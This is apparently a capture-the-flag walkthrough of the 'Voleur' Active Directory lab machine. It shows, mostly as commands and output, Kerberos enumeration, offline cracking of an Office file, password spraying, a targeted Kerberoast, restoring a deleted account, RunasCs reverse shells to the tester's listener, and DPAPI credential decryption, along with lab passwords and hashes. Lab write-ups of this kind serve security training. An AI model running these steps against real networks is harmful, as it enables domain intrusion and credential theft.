


# Voleur
## Initial credentials
```python
ryan.naylor:HollowOct31Nyt
```

## Host file setup
```python
sudo nxc smb 10.129.232.130 --generate-hosts-file /etc/hosts
[sudo] password for kali: 
SMB         10.129.232.130  445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
```
Some things to note:
- NTLM auth is disabled which means ill have to use kerberos auth
- SMB signing is enabled

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc.voleur.htb                  
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-06 12:45 -0400
Nmap scan report for dc.voleur.htb (10.129.232.130)
Host is up (0.014s latency).
rDNS record for 10.129.232.130: DC.voleur.htb
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2222/tcp  open  EtherNetIP-1
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
61568/tcp open  unknown
61569/tcp open  unknown
61570/tcp open  unknown
61599/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.78 seconds
```
### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,2222,3268,3269,5985,9389 -A --min-rate=2000 -sT dc.voleur.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-06 12:47 -0400
Nmap scan report for dc.voleur.htb (10.129.232.130)
Host is up (0.015s latency).
rDNS record for 10.129.232.130: DC.voleur.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-07 00:47:26Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2222/tcp open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel
```
DC is running at +8h

## SMB (445)
Since this does not allow NTLM auth ill have to use kerberos

```python
faketime -f +8h nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt
```
I have successful authentication

```python
faketime -f +8h nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --shares
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         dc.voleur.htb   445    dc               [*] Enumerated shares
SMB         dc.voleur.htb   445    dc               Share           Permissions     Remark
SMB         dc.voleur.htb   445    dc               -----           -----------     ------
SMB         dc.voleur.htb   445    dc               ADMIN$                          Remote Admin
SMB         dc.voleur.htb   445    dc               C$                              Default share
SMB         dc.voleur.htb   445    dc               Finance                         
SMB         dc.voleur.htb   445    dc               HR                              
SMB         dc.voleur.htb   445    dc               IPC$            READ            Remote IPC
SMB         dc.voleur.htb   445    dc               IT              READ            
SMB         dc.voleur.htb   445    dc               NETLOGON        READ            Logon server share 
SMB         dc.voleur.htb   445    dc               SYSVOL          READ            Logon server share
```
Read perms on `IT`

```python
faketime -f +8h nxc smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --users-export users.txt
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         dc.voleur.htb   445    dc               -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         dc.voleur.htb   445    dc               Administrator                 2025-01-28 20:35:13 0       Built-in account for administering the computer/domain
SMB         dc.voleur.htb   445    dc               Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         dc.voleur.htb   445    dc               krbtgt                        2025-01-29 08:43:06 0       Key Distribution Center Service Account
SMB         dc.voleur.htb   445    dc               ryan.naylor                   2025-01-29 09:26:46 0       First-Line Support Technician
SMB         dc.voleur.htb   445    dc               marie.bryant                  2025-01-29 09:21:07 0       First-Line Support Technician
SMB         dc.voleur.htb   445    dc               lacey.miller                  2025-01-29 09:20:10 0       Second-Line Support Technician
SMB         dc.voleur.htb   445    dc               svc_ldap                      2025-01-29 09:20:54 0        
SMB         dc.voleur.htb   445    dc               svc_backup                    2025-01-29 09:20:36 0        
SMB         dc.voleur.htb   445    dc               svc_iis                       2025-01-29 09:20:45 0        
SMB         dc.voleur.htb   445    dc               jeremy.combs                  2025-01-29 15:10:32 0       Third-Line Support Technician
SMB         dc.voleur.htb   445    dc               svc_winrm                     2025-01-31 09:10:12 0        
SMB         dc.voleur.htb   445    dc               [*] Enumerated 11 local users: VOLEUR
SMB         dc.voleur.htb   445    dc               [*] Writing 11 local users to users.txt
```
Dumped all the users to a userfile

Kerberoasting and as-rep roasting both failed

For ease of use ill generate a tgt for this user save typing the credentials

```python
faketime -f +8h nxc smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --generate-tgt ryan_naylor 
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         dc.voleur.htb   445    dc               [+] TGT saved to: ryan_naylor.ccache
SMB         dc.voleur.htb   445    dc               [+] Run the following command to use the TGT: export KRB5CCNAME=ryan_naylor.ccache
```

## `IT` SMB share
```python
faketime -f +8h impacket-smbclient voleur.htb/ryan.naylor@dc.voleur.htb -k         
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] CCache file is not found. Skipping...
Type help for list of commands
# shares
ADMIN$
C$
Finance
HR
IPC$
IT
NETLOGON
SYSVOL
# use IT
# ls
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 .
drw-rw-rw-          0  Thu Jul 24 16:09:59 2025 ..
drw-rw-rw-          0  Wed Jan 29 04:40:17 2025 First-Line Support
# cd First-Line Support
# ls
drw-rw-rw-          0  Wed Jan 29 04:40:17 2025 .
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 ..
-rw-rw-rw-      16896  Thu May 29 18:23:36 2025 Access_Review.xlsx
# get Access_Review.xlsx
```
Ive downloaded a .xlsx file

It is password protected

```python
office2john Access_Review.xlsx | tee xlsx.hash
Access_Review.xlsx:$office$*2013*100000*256*16*a80811402788c037b50df976864b33f5*500bd7e833dffaa28772a49e987be35b*7ec993c47ef39a61e86f8273536decc7d525691345004092482f9fd59cfa111c
```
Ive generate a hash now ill try to crack it

```python
john xlsx.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football1        (Access_Review.xlsx)     
1g 0:00:00:01 DONE (2026-04-06 13:07) 0.5524g/s 459.6p/s 459.6c/s 459.6C/s football1..legolas
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Ive cracked the hash!

## Hunting credentials


Few things from this file:
- Found two passwords
- Three users in the remote management group
- `todd.wolfe` may be a deleted account if i can re-enable it i know the password

```python
svc_ldap:M1XyC9pW7qT5Vn
svc_iis:N5pXyW1VqM7CZ8
todd.wolfe:NightT1meP1dg3on14
```

## Compromising `svc_ldap` and `svc_iis`
```python
faketime -f +8h nxc smb dc.voleur.htb -u users.txt -p 'M1XyC9pW7qT5Vn' --continue-on-success -k       
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Administrator:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Guest:M1XyC9pW7qT5Vn KDC_ERR_CLIENT_REVOKED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\krbtgt:M1XyC9pW7qT5Vn KDC_ERR_CLIENT_REVOKED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\ryan.naylor:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\marie.bryant:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\lacey.miller:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\svc_ldap:M1XyC9pW7qT5Vn 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_backup:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_iis:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\jeremy.combs:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_winrm:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED
```
`svc_ldap` compromised

```python
faketime -f +8h nxc smb dc.voleur.htb -u users.txt -p 'N5pXyW1VqM7CZ8' --continue-on-success -k
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Administrator:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Guest:N5pXyW1VqM7CZ8 KDC_ERR_CLIENT_REVOKED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\krbtgt:N5pXyW1VqM7CZ8 KDC_ERR_CLIENT_REVOKED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\ryan.naylor:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\marie.bryant:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\lacey.miller:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_ldap:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_backup:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\svc_iis:N5pXyW1VqM7CZ8 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\jeremy.combs:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_winrm:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED
```
`svc_iis` compromised

Both of these users have the same access on SMB

## Bloodhound

As seen here i have WriteSPN on `svc_winrm` and also GenericWrite on `lacey.miller` and the `second-line technicians` OU

After further inspection i see that its `lacey.miller` who is apart of the OU so ill just target lacey

## Targeted Kerberoast on `svc_winrm`
```python
faketime -f +8h bloodyAD -k --host dc.voleur.htb -d voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' set object 'svc_winrm' servicePrincipalName -v 'service/hacked'

[+] svc_winrm's servicePrincipalName has been updated
```
First ill update the SPN

```python
faketime -f +8h nxc ldap dc.voleur.htb -u 'svc_ldap' -p 'M1XyC9pW7qT5Vn' --kerberoasting kerb.hashes -k
LDAP        dc.voleur.htb   389    DC               [*] None (name:DC) (domain:voleur.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        dc.voleur.htb   389    DC               [+] voleur.htb\svc_ldap:M1XyC9pW7qT5Vn 
LDAP        dc.voleur.htb   389    DC               [*] Skipping disabled account: krbtgt
LDAP        dc.voleur.htb   389    DC               [*] Total of records returned 1
LDAP        dc.voleur.htb   389    DC               [*] sAMAccountName: svc_winrm, memberOf: CN=Remote Management Users,CN=Builtin,DC=voleur,DC=htb, pwdLastSet: 2025-01-31 04:10:12.398769, lastLogon: 2025-01-29 10:07:32.711487
LDAP        dc.voleur.htb   389    DC               $krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb\svc_winrm*$7c6b1136982d2aeee10a5f29630e471b$b114accdfe288b8af62aba2519337f26871ed5209bde92f50d7b8f1d32bde18ed84904fee03b78251b7f1aa64a3744cb88439bd2099f3da93f7310fc15c51489e0e0aed68ff90e3019ac06d663c10580733d956942b8e7f93502caf527d74eb2f859bf23d2ad5555212a00ea49e10ea4553dc52c90d734d42535f8970be3c8f98a50e46c433798911a951055d52fcd284db26434436b0224ac761f5db39ab474da3677a3a0f1f25a591a45e459534d8f463d1a5c7b975816842325a3811d3874b864b16769582d35f095f654e8c2cd807d6b706926d91203fc1d9fa7ee242e5bb6b145bf1589748a46c1bb70ab91d90e49cd8d0e9e364eef6f908571a1ed7eedd8628f8ac7517e08a415940e51cdcfac3ad9c8a7287a790c4c8f790586af46140d71c03092bba41d9acd9f4e407bb5e9bc4962f030a43aafc18b236d8fff6b2e9ac858b10410615f9d8938c07f89a907fc6a530df8ab04584527739f273c6ea49e98b48edebb90defa07218edf1799db5bba25ed7fbb1bb94f48bec488fdb2bac334a416582e9dbcbd69fea11b262f72f2f2ddfd16472655cf0d05d30811c924ffad99e4a3ad91e6f53c0dff880157ec8745a0a97d38af6efb869bbfe578020426d56363db536aa1cf8ba536e5e2066919f144ef281dbb2e61f725ab09d634e154363eaf72916c1b17d50df03e996684f1d746b602ab15edbe48c8365ee541d8ae31851cb2901664ab292db30a82447b94f69b7513f9bddfe1cef51cffe897ec3808a369eb3e4d426b921b9e3a4bab628871488de24512aa69d3c211f5ed46cc995d8e3939ae9c12e85ab1e5969149621512388881781aab2731bfa891c848617fa3fea2077699063df0c6eb25cb3e6ac377e35c262859d3ea026ac24da3e68dade7430d294c1b3d02cdcf2dc494516e0f8f9d4ac063de5818bc7744efcbfcce71ed5d50fb226c4da583086b02957d3389ed424704b07b4ce38f47df8f92dd664bfac740495b6162a0db7e8fe9194b868b939dc8ef44c9738531e66926eaac96634b16b53308256a226bc292aba9502ce61b29ded7f5ac74fd6dce4cd13f4110f4e791095fc387589584e3ef7155af8900085158d8772a8281e673a38c5e680bc7ba3e38242fd8c9821ecb36ea97b225cb135d0217cfbb699ad8c0d57caa0731ca8ff4c3c25f807295f429e6934284046795df03094774fb2a47bb675acbc6c0035db4372ac9182f3f604c19599e97ab75516c89063f2731a2f791ec93920e6ac34d4ac156f35ad9f219511404f845e78e864ae596c7fccdbfee2ea52e38fd9283df7963d0d983acd4fb50f8b7f14611c2e463e9e4b9dc28094196c3e1145fb81d65fe7221b48e60227a579a8ac943911c1d74576133368d6e38ff9df1b4ac38f87ff74052f27ed406f2b78f7ddf4ad2d2f697b306ac716009c6d6508141d7e3a4f058a7f1d3bb5e8847df3b5fedb63e7a78fe
```
Ive dumped the hash

### Cracking the hash
```python
hashcat kerb.hashes /usr/share/wordlists/rockyou.txt

$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb\svc_winrm*$7c6b1136982d2aeee10a5f29630e471b$b114accdfe288b8af62aba2519337f26871ed5209bde92f50d7b8f1d32bde18ed84904fee03b78251b7f1aa64a3744cb88439bd2099f3da93f7310fc15c51489e0e0aed68ff90e3019ac06d663c10580733d956942b8e7f93502caf527d74eb2f859bf23d2ad5555212a00ea49e10ea4553dc52c90d734d42535f8970be3c8f98a50e46c433798911a951055d52fcd284db26434436b0224ac761f5db39ab474da3677a3a0f1f25a591a45e459534d8f463d1a5c7b975816842325a3811d3874b864b16769582d35f095f654e8c2cd807d6b706926d91203fc1d9fa7ee242e5bb6b145bf1589748a46c1bb70ab91d90e49cd8d0e9e364eef6f908571a1ed7eedd8628f8ac7517e08a415940e51cdcfac3ad9c8a7287a790c4c8f790586af46140d71c03092bba41d9acd9f4e407bb5e9bc4962f030a43aafc18b236d8fff6b2e9ac858b10410615f9d8938c07f89a907fc6a530df8ab04584527739f273c6ea49e98b48edebb90defa07218edf1799db5bba25ed7fbb1bb94f48bec488fdb2bac334a416582e9dbcbd69fea11b262f72f2f2ddfd16472655cf0d05d30811c924ffad99e4a3ad91e6f53c0dff880157ec8745a0a97d38af6efb869bbfe578020426d56363db536aa1cf8ba536e5e2066919f144ef281dbb2e61f725ab09d634e154363eaf72916c1b17d50df03e996684f1d746b602ab15edbe48c8365ee541d8ae31851cb2901664ab292db30a82447b94f69b7513f9bddfe1cef51cffe897ec3808a369eb3e4d426b921b9e3a4bab628871488de24512aa69d3c211f5ed46cc995d8e3939ae9c12e85ab1e5969149621512388881781aab2731bfa891c848617fa3fea2077699063df0c6eb25cb3e6ac377e35c262859d3ea026ac24da3e68dade7430d294c1b3d02cdcf2dc494516e0f8f9d4ac063de5818bc7744efcbfcce71ed5d50fb226c4da583086b02957d3389ed424704b07b4ce38f47df8f92dd664bfac740495b6162a0db7e8fe9194b868b939dc8ef44c9738531e66926eaac96634b16b53308256a226bc292aba9502ce61b29ded7f5ac74fd6dce4cd13f4110f4e791095fc387589584e3ef7155af8900085158d8772a8281e673a38c5e680bc7ba3e38242fd8c9821ecb36ea97b225cb135d0217cfbb699ad8c0d57caa0731ca8ff4c3c25f807295f429e6934284046795df03094774fb2a47bb675acbc6c0035db4372ac9182f3f604c19599e97ab75516c89063f2731a2f791ec93920e6ac34d4ac156f35ad9f219511404f845e78e864ae596c7fccdbfee2ea52e38fd9283df7963d0d983acd4fb50f8b7f14611c2e463e9e4b9dc28094196c3e1145fb81d65fe7221b48e60227a579a8ac943911c1d74576133368d6e38ff9df1b4ac38f87ff74052f27ed406f2b78f7ddf4ad2d2f697b306ac716009c6d6508141d7e3a4f058a7f1d3bb5e8847df3b5fedb63e7a78fe:AFireInsidedeOzarctica980219afi
```
I have cracked the hash

```python
svc_winrm:AFireInsidedeOzarctica980219afi
```
After getting access via winrm i need to step back i think the next step is by exploiting GenericWrite

Ill perform the same attack but on `lacey.miller` this time

The svc_ldap user is apart of restore users this makes me think of the user that was deleted

## Restoring `todd.wolfe`
But since i have a session as `svc_winrm` ill need to upload runascs to use their permissions

```python
Evil-WinRM* PS C:\Users\svc_winrm\Documents> upload runascs/RunasCs.exe
```
Now its on the system i can use this to execute powershell commands via evil-winrm as svc_ldap

```python
penelope -p 1337                   
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

```python
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> ./RunasCs.exe svc_ldap 'M1XyC9pW7qT5Vn' powershell -r 10.10.14.90:1337
[*] Warning: The logon for user 'svc_ldap' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-3097ac$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 6356 created in background.
```
Ill get a session as `svc_ldap`

```python
penelope -p 1337                   
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC 10.129.232.130 Microsoft_Windows_Server_2022_Standard-x64-based_PC 👤 voleur\svc_ldap 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC~10.129.232.130-Microsoft_Windows_Server_2022_Standard-x64-based_PC/2026_04_06-15_03_22-495.log
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Windows\system32> whoami
whoami
voleur\svc_ldap
PS C:\Windows\system32> 
```
I now have a session as `svc_ldap`

```python
PS C:\Windows\system32> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property objectSid,lastKnownParent
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property objectSid,lastKnownParent


Deleted           : True
DistinguishedName : CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb
LastKnownParent   : OU=Second-Line Support Technicians,DC=voleur,DC=htb
Name              : Todd Wolfe
                    DEL:1c6b1deb-c372-4cbb-87b1-15031de169db
ObjectClass       : user
ObjectGUID        : 1c6b1deb-c372-4cbb-87b1-15031de169db
objectSid         : S-1-5-21-3927696377-1337352550-2781715495-1110
```
As seen here the user is in fact deleted

```python
PS C:\Windows\system32> Restore-ADObject -Identity 1c6b1deb-c372-4cbb-87b1-15031de169db
```
The user now should be restored

## Shell as `todd.wolfe`
```python
penelope -p 1338     
[+] Listening for reverse shells on 0.0.0.0:1338 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

```python
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> ./RunasCs.exe todd.wolfe 'NightT1meP1dg3on14' powershell -r 10.10.14.90:1338
[*] Warning: The logon for user 'todd.wolfe' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-3097ac$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 6788 created in background.
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> 
```
I can now reuse runascs to get a session as todd.wofle since i already know his password

```python
penelope -p 1338     
[+] Listening for reverse shells on 0.0.0.0:1338 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC 10.129.232.130 Microsoft_Windows_Server_2022_Standard-x64-based_PC 👤 voleur\todd.wolfe 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC~10.129.232.130-Microsoft_Windows_Server_2022_Standard-x64-based_PC/2026_04_06-15_07_11-552.log
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Windows\system32> whoami
whoami
voleur\todd.wolfe
PS C:\Windows\system32> 
```
Now i have access as `todd.wolfe`

## Extracting DPAPI credentials
```python
faketime -f +8h smbclient -U 'voleur.htb/todd.wolfe%NightT1meP1dg3on14' --realm=voleur.htb //dc.voleur.htb/IT
Try "help" to get a list of possible commands.
smb: \>
```

```python
smb: \Second-Line Support\Archived Users\todd.wolfe\> get "AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3" 772275FAD58525253490A9B0039791D3
getting file \Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials\772275FAD58525253490A9B0039791D3 of size 398 as 772275FAD58525253490A9B0039791D3 (6.6 KiloBytes/sec) (average 6.6 KiloBytes/sec)

smb: \Second-Line Support\Archived Users\todd.wolfe\> get "AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88" 08949382-134f-4c63-b93c-ce52efc0aa88
getting file \Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88 of size 740 as 08949382-134f-4c63-b93c-ce52efc0aa88 (11.3 KiloBytes/sec) (average 9.0 KiloBytes/sec)
```
Now that the user is restored i can log in via SMB and access the share they are stored in

### Decrypting credentials
```python
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```
I now have the decrypted key

```python
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m
```
